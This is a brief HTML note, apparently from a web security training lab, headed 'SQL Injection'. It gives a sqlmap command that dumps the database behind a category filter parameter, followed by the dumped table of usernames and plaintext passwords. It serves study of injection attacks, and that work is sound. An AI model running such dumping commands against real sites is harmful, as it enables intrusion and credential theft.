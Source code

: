 <h1>SQL Injection</h1>

<p>Reflected SQL Injection:</p>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>
<p>
+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| administrator | gk6dbw6k4sbpy1cn70jl |
| carlos        | m2e9fuameseab1y9eqhf |
| wiener        | niei989328wjslkbnhx6 |
+---------------+----------------------+
 <p>
